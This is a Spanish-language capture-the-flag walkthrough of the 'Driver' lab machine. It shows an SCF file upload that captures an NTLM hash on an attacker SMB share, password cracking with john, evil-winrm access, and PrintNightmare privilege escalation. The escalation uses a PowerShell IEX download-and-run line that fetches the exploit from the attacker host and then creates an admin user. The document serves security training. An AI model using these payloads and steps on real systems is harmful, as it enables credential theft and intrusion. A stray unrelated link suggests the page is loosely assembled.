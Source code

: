 ## Summary

Tags: #SMB #SCF #John #Hash #Windows #WinRM #WinPEAS #Nmap 

- IP -> 10.10.11.106
- Ports -> TCP (445, 80, 135,5985), UDP (idk)
- OS ->  Windows
- Services & Applications
    - 80 -> Microsoft IIS httpd 10.0
    - 135 -> Microsoft Windows RPC
    - 445 -> SMB
    - 5985 -> WinRM


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```
No encontramos nada relevante

```bash
❯ smbclient -L ❮IP❯                   # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
```
Acceso denegado

```bash
❯ smbmap -H ❮IP❯                      # Herramienta elternativa para ver si nos reporta algo mas y nos reporta los permisos (WRITE, READ)
```
Acceso denegado

```bash
❯ crackmapexec smb ❮IP❯               # Para listar recursos compartidos de Windows
```
No esta firmado, SMBv1, name:DRIVER, domain:DRIVER

* Al momento de entrar a la web. Nos pide una autenticacion, por lo que ponemos el user y passwd por defaul -> admin:admin y logramos entrar.

Wappalyzer:
* IIS 10.0 - Web Servers
* PHP 7.3.25 -Programming Languaje
* JQuery 3.2.1 - JavaScript Libraries

En la parte de Firmware podemos cargar un archivo.  Por lo que estamos frente a un **SCF (Shell Comand Files) File Attack** y lo buscamos en Google. 
* [SCF_File_Attacks](https://nored0x.github.io/red-teaming/smb-share-scf-file-attacks/)

Y haremos el siguiente:
```bash
❯ nvim file.scf
	[shell]
	Command=2
	IconFile=\\10.10.14.13\smbFolder\test.ico    # Colocamos nuestra IP ,el recurso que vamos a compartir se llama 'smbFolder' y se cargara un icono aunque no exista
	[Taskbar]
	Command=ToggleDesktop
```

```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support # Creamos un servicio con SMB 

	# smbFolder = Nos creara un servicio compartido llamado 'smbFolder'
	# pwd = Sincronizado con la ruta absoluta actual 
	# smb2support = En Windows 10 le damos soporte a la version 2
```

Suponiendo que se esta haciendo una autenticacion por detras, despues de subir el archivo y darle 'Submit'. Podemos observar en nuestra consola que hay un usuario llamado **'Tony' con su hash.**

Creamos un archivo que contenga el hash para despues poder usar John y asi crackearlo
```bash
❯ nvim hash
	tony::DRIVER:aaaaaaaa....
```

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt <Hashfile>                              # Usamos John para crackear un hash con fuerza bruta

	# wordlist = Ruta del diccionario rockyou.txt
	# hashfile = Archivo que contiene el hash a crackear
```
Nos devuelve una **passwd=liltony**

```bash
❯ crackmapexec smb ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯      # Para el servicio 445/tcp smb abierto podemos utilizar el siguiente comando para saber si tenemos credenciales validas, por lo que si nos muestra un (+) quiere decir que si son validas, ademas de que nos da informacion de lo que hay en ese servico (nombre, Window 10.0, dominio, signing=true)(u=user, p=password) Este comando es usado para validar aunque tenga mas aplicaciones.

❯ crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯    # Despues de saber que las credenciales son validas con crackmapexec, podemos utilizar el puerto de winrm para saber si podemos entrar, pero antes debemos saber si el usuario esta en el grupo Remote management users, para saber si pertenece nos debe poner un (Pwn3d!) y asi podernos autenticar.

# Podemos usar evil-winrm para conectarnos, si tiene el puerto 5985 abierto
```

## User
Como tambien tenemos el puerto 5985 OPEN, nos podemos conectar por evil-winrm
```bash
❯ evil-winrm -i ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯         # Nos podemos conectar ya al servicio de administracion remota de Windows
```
Entramos a la maquina 

```bash
❯ ipconfig                                   # Nos muestra las interfaces y las direcciones IP
```

```bash
❯ whoami                                     # Miramos el nombre del usuario
```

```bash
❯ net user ❮User❯                            # Para ver los grupos locales y el RMU
```

```bash
❯ type ❮File❯                                # Nos muestra el contenido del archivo
```
Miramos el contenido de la flag user.txt en el Desktop

## Root

```bash
❯  whoami /priv                              # Miramos los privilegios que tenemos   
	
	# SetInpersonatePrivilege = En el cual podriamos usar RottenPotato o  JuicyPotato 
	# SetLoadPrivilege = Para usar el recurso de Tarlogic

❯  whoami /all                               # Miramos todos los privilegios
```
Pero no encontramos nada que nos ayude a escalar

Para poder escalar usaremos **WinPEAS** y lo descargaremos en la maquina de atacante, para despues subirlo a la maquina victima
* [WinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) 
Nos dirigimos a: Download the **latest obfuscated and not obfuscated versions from here**, -> Despues debemos de descargar el archivo **winPeasx64.exe** esto en la maquina de atacante Linux

```bash
C:\Windows\Temp                              # Directorios con capacidad de escritura en Windows
```

Este comando se ejecuta en la maquina Windows
```bash
❯ upload /home/omar/Downloads/Firefox/winpeasx64.exe # Subimos el archivo WinPEAS a la maquina victima, colocando la ruta absoluta de la maquina de atacante en donde se encuentra
```

```bash
❯.\winpeasx64.exe   # Ejecutamos el binario en la maquina victima, y recolectara informacion para ver las vilnerabilidadses y poder escalar privilegios.
```

Encontrams que tiene una vulnerabilidad con Spoolsv, por lo que buscamos en Google como poder explotarla
* [Spoolsv-PrintNightmare LPE (PowerShell)](https://github.com/calebstewart/CVE-2021-1675)
Nos dirigimos dentro a CVE-2021-1675.ps1 y despues a Raw para poderlo clonar en la maquina de atacante Linux
```bash
❯ wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1   # Nos descargamos el binario a nuestra maquina de atacante
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para pasar el binario
```

En la maquina Windows hacemos lo siguiente para subir el archivo
```bash
❯ IEX(New-Object Net.WebClient).downloadString(‘http://10.10.14.13/CVE-2021-1675.ps1’)  # Con este comando en la maquina victima podemos subir el script en powershell que esta cargado en nuestro servidor
```

Ahora podremos crear un usuario con los privilegios NT/AuthoritySystem
```bash
❯ Invoke-Nightmare -Drivername “Xerox” -NewUser “Omar” -NewPassword “Omar123$!” # Aqui crearemos un .dll en donde pondra nuestro usuario como administrador.
```

```bash
❯ net user                  # Verificamos los usuarios y miramos que ya tenemos asignado nuestro usuario como administrador
```
 
Despues de eso volvemos a verificar con crackmapexec y buscaremos que nos ponga un pwn3d y con eso verificaremos que nos podremos conectar con evilwinrm para que nos de una consola de Administrator
```bash
❯ crackmapexec winrm 10.10.11.106 -u ‘Omar’ -p ‘Omar123$!’ # Aqui veremos si nos pone un pwned y si es asi es porque el usuario normalmente esta en un directorio que se llama 'Remote Management User'.
```
  
```bash
❯ evil-winrm -i 10.10.11.106 -u ‘Omar’ -p ‘Omar123$!’      # Nos podemos conectar ya al servicio de administracion remota de Windows como el usuario Tony
```
  
Una vez adentro buscamos la flag root.txt